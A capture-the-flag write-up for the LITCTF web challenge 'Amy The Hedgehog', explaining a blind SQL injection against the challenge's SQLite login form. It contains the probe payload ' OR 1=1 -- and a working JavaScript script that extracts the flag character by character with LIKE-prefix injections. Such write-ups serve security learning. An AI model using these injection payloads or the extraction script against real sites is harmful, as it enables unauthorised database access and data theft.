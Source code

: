 # web/Amy The Hedgehog

## Challenge

Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution

We have to guess Amy's crush (a synonym of "the flag"). Guessing `' OR 1=1 --` returns "(≧U≦❁) You got it!!!", so it is vulnerable.

Classic. We're given a yes/no response to a query.
To avoid brute force, we can figure out the flag character-by-character using `LIKE 'prefix%'` (trying `LITCTF{a%`, ..., `LITCTF{z%` to see `LITCTF{s%` matches, then `LITCTF{sa%`, ..., `LITCTF{sz%`, etc.).

We automate! We can open the Network panel in DevTools (inspector), submit a query with `' OR name LIKE 'sanic%' --`, and "copy as fetch" the request:
```js
await fetch("http://litctf.live:31770/", {
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "name=%27+OR+name+LIKE+%27LITCTF%7Bsanic%25%27+--",
    "method": "POST",
});
```
(This request has been stripped down to the essentials.)

Then, we just do some templating and map each possible character (we try lowercase only and it works) to a request:
```js
await (async () => {
    const chars = [..."}abcdefghijklmnopqrstuvwxyz"];
    let flag = "LITCTF{";
    while (true) {
        const res = await Promise.all([..."}abcdefghijklmnopqrstuvwxyz"].map(async c=>
            (
                await (
                    await fetch("http://litctf.live:31770/", {
                        "headers": {
                            "Content-Type": "application/x-www-form-urlencoded",
                        },
                        "body": `name=%27+OR+name+LIKE+%27${flag}${c}%25%27+--`,
                        "method": "POST",
                    })
                ).text()
            ).includes("You got it!!!")
        ));
        const next = chars.filter((_,i) => res[i]);
        console.log(next);
        if (next.length != 1) throw new Error("bruh");
        flag += next[0];
        if (next[0] == "}") break;
    }
    return flag;
})();
// LITCTF{sldjf}
```
(This is run in the console on the same page, to avoid CORS issues.)

Guessing this flag directly confirms it works.

## Flag

`LITCTF{sldjf}`

